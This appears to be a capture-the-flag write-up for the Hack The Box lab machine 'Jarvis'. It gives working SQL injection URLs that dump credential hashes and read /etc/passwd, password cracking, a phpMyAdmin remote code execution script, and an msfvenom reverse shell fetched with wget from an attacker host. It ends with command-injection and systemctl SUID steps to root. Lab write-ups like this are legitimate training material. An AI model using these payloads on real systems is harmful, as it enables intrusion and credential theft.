





# Jarvis

## nmap

```
❯ sudo rustscan -a 10.10.10.143 -- -n -A -oA recon/tcp-all

Nmap scan report for 10.10.10.143
Host is up, received reset ttl 63 (0.020s latency).
Scanned at 2021-11-23 11:45:08 EST for 17s

PORT      STATE SERVICE REASON         VERSION
22/tcp    open  ssh     syn-ack ttl 63 OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey:
|   2048 03:f3:4e:22:36:3e:3b:81:30:79:ed:49:67:65:16:67 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCzv4ZGiO8sDRbIsdZhchg+dZEot3z8++mrp9m0VjP6qxr70SwkE0VGu+GkH7vGapJQLMvjTLjyHojU/AcEm9MWTRWdpIrsUirgawwROic6HmdK2e0bVUZa8fNJIoyY1vPa4uNJRKZ+FNoT8qdl9kvG1NGdBl1+zoFbR9az0sgcNZJ1lZzZNnr7zv/Jghd/ZWjeiiVykomVRfSUCZe5qZ/aV6uVmBQ/mdqpXyxPIl1pG642C5j5K84su8CyoiSf0WJ2Vj8GLiKU3EXQzluQ8QJJPJTjj028yuLjDLrtugoFn43O6+IolMZZvGU9Man5Iy5OEWBay9Tn0UDSdjbSPi1X
|   256 25:d8:08:a8:4d:6d:e8:d2:f8:43:4a:2c:20:c8:5a:f6 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBCDW2OapO3Dq1CHlnKtWhDucQdl2yQNJA79qP0TDmZBR967hxE9ESMegRuGfQYq0brLSR8Xi6f3O8XL+3bbWbGQ=
|   256 77:d4:ae:1f:b0:be:15:1f:f8:cd:c8:15:3a:c3:69:e1 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIPuKufVSUgOG304mZjkK8IrZcAGMm76Rfmq2by7C0Nmo
80/tcp    open  http    syn-ack ttl 63 Apache httpd 2.4.25 ((Debian))
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Stark Hotel
64999/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.25 ((Debian))
| http-methods:
|_  Supported Methods: POST OPTIONS HEAD GET
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Site doesn't have a title (text/html).
```

## http - 80

Visiting web page:


Clicking on Home link brings up index.php, so site is using php.

Clicking on Rooms link shows url like:

```
http://10.10.10.143/room.php?cod=1
```

Checking for SQLi in the URL. Add " and 1=0", the page results are blank. Switch to " and 1=1" and the query works again.

So it's vulnerable to SQLi! Here's the URL that shows it:

```
http://10.10.10.143/room.php?cod=1%20and%201=0
```

Based on this type of effect, the query probably looks something like `SELECT * FROM ROOMS WHERE ID=[cod]` where `[cod]` gets inserted from the query parameter and is expected to be an integer.

Now checking with ORDER BY to see how many columns there are. Query works until I hit ORDER BY 8:

```
http://10.10.10.143/room.php?cod=1%20order%20by%208
```

So there are 7 columns. Check database version using [DBMS Identification](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#dbms-identification) techniques from PayloadsAllTheThings.

Using `conv('a',16,2)=conv('a',16,2)` works (MySQL), and `5::int=5` (Postgres) fails, so it looks like we have a MySQL DB.

```
http://10.10.10.143/room.php?cod=1%20and%20conv(%27a%27,16,2)=conv(%27a%27,16,2)
```

Next, check what fields we can see from the results with the UNION ALL SELECT statement:

- Append `AND 1=0 UNION ALL SELECT 1,2,3,4,5,6,7` to URL

```
http://10.10.10.143/room.php?cod=1%20AND%201=0%20UNION%20ALL%20SELECT%201,2,3,4,5,6,7
```

And the result returns the columns 2, 3, 4 and 5:


Now pull some info from DB using the [Pentestmonkey MySQL cheathseet](https://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet):

- version: `10.1.37-MariaDB-0+deb9u1`
- database: `hotel`
- user: `DBadmin@localhost`

```
http://10.10.10.143/room.php?cod=1%20AND%201=0%20UNION%20ALL%20SELECT%201,version(),3,database(),user(),6,7
```



So it looks like we have a database admin's credentials. Let's try to grab creds for the DB:

```
http://10.10.10.143/room.php?cod=1%20AND%201=0%20UNION%20ALL%20SELECT%20NULL,%20host,%20NULL,%20user,%20password,%20NULL,NULL%20FROM%20mysql.user;%20--+
```

And we get a hash!

- `DBadmin`:`*2D2B7A5E4E637B8FBA1D17F40318F277D29964D0`

Throwing into hashcat:

```sh
❯ hashid "*2D2B7A5E4E637B8FBA1D17F40318F277D29964D0"
Analyzing '*2D2B7A5E4E637B8FBA1D17F40318F277D29964D0'
[+] MySQL5.x
[+] MySQL4.1

❯ hashcat -O -a0 -w3 --quiet -m 300 2D2B7A5E4E637B8FBA1D17F40318F277D29964D0 /mnt/vm-share/rockyou.txt
2d2b7a5e4e637b8fba1d17f40318f277d29964d0:imissyou
```

Nice! If we get other users on the box, maybe we can reuse those creds for SSH.

Maybe we can read the `/etc/passwd` file to get users? Trying `LOAD_FILE('/etc/passwd')`:

```
http://10.10.10.143/room.php?cod=1%20AND%201=0%20UNION%20ALL%20SELECT%20NULL,%20LOAD_FILE(%27/etc/passwd%27),%20NULL,%204,%205,%20NULL,NULL;%20--+
```

And it works!



So we have a user named `pepper`. Checking SSH as root and pepper with "imissyou" doesn't work :cry:

Next, let's see if we can get code execution using a UDF exploit. First get host OS and plugin information by grabbing the `@@version_compile_os`, `@@version_compile_machine`, and `@@plugin_dir` variables:

```
http://10.10.10.143/room.php?cod=1%20AND%201=0%20UNION%20ALL%20SELECT%20NULL,%20@@version_compile_os,%20NULL,%20@@plugin_dir,%20@@version_compile_machine,%20NULL,NULL;%20--+
```

The machine is `debian-linux-gnu, x86_64`, and the plugin directory is `/usr/lib/x86_64-linux-gnu/mariadb18/plugin/`.

```sh
# find metasploit's udf shared object file
❯ locate udf | grep '.so'

# grab file into local exploit folder
❯ mkdir exploit
❯ cp /usr/share/metasploit-framework/data/exploits/mysql/lib_mysqludf_sys_64.so exploit/derp.so

# hex encode the file and copy it to the clipboard
❯ cat exploit/derp.so| xxd -p | tr -d '\n' | xclip -sel clip
```

Now dump the shellcode into a plugin file on Jarvis:

```
10.10.10.143/room.php?cod=1 AND 1=0 UNION SELECT binary 0x<SHELLCODE> into dumpfile '/usr/lib/x86_64-linux-gnu/mariadb18/plugin/derp.so'; --+
```

But the request is too long and fails:



Time to explore more of the database. Let's start with databases using `group_concat(distinct schema_name) from information_schema.schemata`:

```
http://10.10.10.143/room.php?cod=1%20AND%201=0%20UNION%20ALL%20SELECT%20null,group_concat(distinct%20schema_name),null,null,null,null,null%20from%20information_schema.schemata;%20--+
```

And we get: `hotel,information_schema,mysql,performance_schema`

Next list the tables of the `hotel` db, hoping to get a list of users since there is a "sign in" link:

- using `group_concat(distinct table_name) from information_schema.tables WHERE table_schema = 'hotel'`

```
http://10.10.10.143/room.php?cod=1%20AND%201=0%20UNION%20ALL%20SELECT%20null,group_concat(distinct%20table_name),null,null,null,null,null%20from%20information_schema.tables%20WHERE%20table_schema%20=%20%27hotel%27;%20--+#
```

But we only have one table, called `room`. Clicking the "sign in" link shows it doesn't actually work (just goes to "href=#")

Time to back out and finish my typical enumeration scans:

```sh
❯ ulimit -n 8192 # prevent file access error during scanning
❯ whatweb -v -a3 http://10.10.10.143 | tee whatweb.log
# Summary   : Script, Apache[2.4.25], Modernizr[2.6.2.min], UncommonHeaders[ironwaf], Bootstrap[3.3.5], HTML5, HTTPServer[Debian Linux][Apache/2.4.25 (Debian)], Open-Graph-Protocol, Email[supersecurehotel@logger.htb], X-UA-Compatible[IE=edge], JQuery, Cookies[PHPSESSID]

# notice nonstandard "ironwaf" header with version 2.0.3

❯ searchsploit ironwaf 2.0
Exploits: No Results
Shellcodes: No Results

❯ gobuster dir -ezqrkw /usr/share/dirb/wordlists/common.txt -t 100 -x "txt,htm,html,php,cgi" -o gobuster.txt -u http://10.10.10.143
http://10.10.10.143/css                  (Status: 200) [Size: 3043]
http://10.10.10.143/fonts                (Status: 200) [Size: 1333]
http://10.10.10.143/footer.php           (Status: 200) [Size: 2237]
http://10.10.10.143/index.php            (Status: 200) [Size: 23628]
http://10.10.10.143/images               (Status: 200) [Size: 7201]
http://10.10.10.143/js                   (Status: 200) [Size: 3580]
http://10.10.10.143/nav.php              (Status: 200) [Size: 1333]
http://10.10.10.143/phpmyadmin           (Status: 200) [Size: 15223]
http://10.10.10.143/room.php             (Status: 200) [Size: 23628]
```

There is a phpmyadmin page!



Trying credentials:

- `DBadmin:imissyou` - WORKS



Noting the phpMyAdmin version (4.8.0 on the bottom right), and googling for phpmyadmin exploits, I came across this:

- [https://www.exploit-db.com/exploits/45020](https://www.exploit-db.com/exploits/45020)

It's a metasploit module that says:

```
phpMyAdmin v4.8.0 and v4.8.1 are vulnerable to local file inclusion,
which can be exploited post-authentication to execute PHP code by
application.
```

Looking at the blog post linked in the metasploit module

- [https://blog.vulnspy.com/2018/06/21/phpMyAdmin-4-8-x-Authorited-CLI-to-RCE/](https://blog.vulnspy.com/2018/06/21/phpMyAdmin-4-8-x-Authorited-CLI-to-RCE/)

It says you log in, run a malicious sql query containing php code, then (using your phpMyAdmin Session ID) include a session file of that query using the URL + query parameter:

````
/index.php?target=db_sql.php%253f/../../../../../../../../var/lib/php/sessions/sess_<SESSION_ID>
````

And that will execute the malicious php code.

It looks like there is a python script on exploit-db to do this for us:

- [https://www.exploit-db.com/exploits/50457](https://www.exploit-db.com/exploits/50457)

Downloading it and running:

```sh
❯ python3 50457.py 10.10.10.143 80 /phpmyadmin DBadmin imissyou whoami
www-data
```

Boom. Code execution.

Now drop a reverse shell:

```sh
# make reverse shell
❯ msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.10.14.6 LPORT=443 -f elf -o rsh.elf

# check for wget
❯ python3 50457.py 10.10.10.143 80 /phpmyadmin DBadmin imissyou "which wget"
/usr/bin/wget

# host reverse shell on web server
❯ sudo python3 -m http.server 80

# download reverse shell on target
❯ python3 50457.py 10.10.10.143 80 /phpmyadmin DBadmin imissyou "wget -P /tmp 10.10.14.6/rsh.elf"

# start reverse shell listener
sudo nc -lvnp 443

# change permissions and execute
❯ python3 50457.py 10.10.10.143 80 /phpmyadmin DBadmin imissyou "chmod +x /tmp/rsh.elf"
❯ python3 50457.py 10.10.10.143 80 /phpmyadmin DBadmin imissyou "/tmp/rsh.elf"
```

And we're in!


## privesc

Download and run linpeas.

Checking `sudo -l` we see www-data can run `/var/www/Admin-Utilities/simpler.py` as pepper without password. That seems interesting!

Examining the file, if you pass the `-p` flag, you can supply input to the exec_ping()` command, which looks juicy:

```python
def exec_ping():
    forbidden = ['&', ';', '-', '`', '||', '|']
    command = input('Enter an IP: ')
    for i in forbidden:
        if i in command:
            print('Got you')
            exit()
    os.system('ping ' + command)
```

So it tries to escape a bunch of shell characters before calling `os.system`, but it forgot about `$()` subshells. Let's test it out:

```sh
sudo -u pepper /var/www/Admin-Utilities/simpler.py -p
Enter an IP:  $(id > /tmp/test)

cat /tmp/test
uid=1000(pepper) gid=1000(pepper) groups=1000(pepper)
```

Nice. We can't add an authorized ssh key because that requires a hyphen, but we can kick off another reverse shell with the new privileges:

```sh
# on kali, start listener
sudo nc -lvnp 443

# on victim, start reverse shell
sudo -u pepper /var/www/Admin-Utilities/simpler.py -p
Enter an IP:  $(/tmp/rsh.elf)
```

Got user.txt:

```
2afa36c4f05b37b34259c93551f5c44f
```


Running linpeas again, and I see now there is a SUID binary set for `systemctl`, which is a [GTFObin](https://gtfobins.github.io/gtfobins/systemctl/). Here is their example exploit code for SUID:

```sh
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "id > /tmp/output"
[Install]
WantedBy=multi-user.target' > $TF
systemctl link $TF
systemctl enable --now $TF
# can also use `systemctl start $TF`
```

This creates a new systemd service and kicks it off as root. Testing it reveals it works! Now just edit the exploit to run the reverse shell instead of the `id` command!

root.txt:

```
d41d8cd98f00b204e9800998ecf84271
```

